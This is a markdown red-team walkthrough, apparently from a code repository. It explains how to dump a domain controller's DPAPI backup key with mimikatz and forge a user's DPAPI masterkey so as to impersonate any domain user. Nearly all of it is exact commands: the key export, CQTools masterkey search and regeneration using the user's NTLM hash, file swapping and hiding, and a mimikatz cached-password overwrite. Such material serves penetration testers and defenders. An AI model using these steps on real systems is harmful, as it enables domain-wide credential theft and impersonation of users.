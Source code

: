 ## Exporting DPAPI Domain Backup Key from a domain controller with mimikatz, and explaining how to recreate a user's masterkey (AKA Impersonate ANYONE within the domain)

### Tools: Mimikatz, CQTools https://github.com/BlackDiverX/cqtools

### Requirements: System level access on the host

### Steps:

#### 1) 

    mimikatz.exe 

#### 2) Dump the DPAPI Domain Backup Key from DC

    lsadump::backupkeys /system:localhost /export 

#### 3) Transfer the .pfx container, as well as some of the CQtools (CQDPAPIBlobSearcher.exe and CQMasterKeyAD.exe to target machine of your choice)

#### 4) Finds the Masterkey, which shown as mkguid on results

    CQDPAPIBlobSearcher.exe /d c:\users\USER\AppData\Roaming /r /o c:users\USER\Desktop\blob 

#### 5) Attacking machine: 

    openssl pkcs12 -in DMK.pfx -out temp.pem -nodes (Password is mimikatz because it was extracted with mimikatz from DC)

#### 6) Attacking machine: (Use cqure as passphrase. We repacked the pfx using "cqure" as passphrase to make the cqtool work or else it will fail)

    openssl pkcs12 -export -out DMK.pfx -in temp.pem 

#### 7) 

    CQMasterKeyAD.exe /file "c:\users\USER\appdata\roaming\microsoft\protect\USER_SID\MASTERKEY" /pfx DMK.pfx /newhash NTLM_HASH_OF_USER

#### 8) 

    ren OLD_MASTERKEY_FILE WHATEVER

#### 9) 

    ren NEW_MASTERKEY_FILE OLD_MASTERKEY_FILE

#### 10) Shuffle the old and new masterkey files, then give the same attributes to the newly created masterkey file as the old one

    attrib "c:\users\USER\appdata\roaming\microsoft\protect\USER_SID\MASTERKEY" +S +H 

#### 11) VOILA!

## TIP: In case we cannot crack the NTLM password of a user, we can simply create a new password with mimikatz: 

    lsadump::cache /user:USER /password:NEW_PASSWORD /kiwi
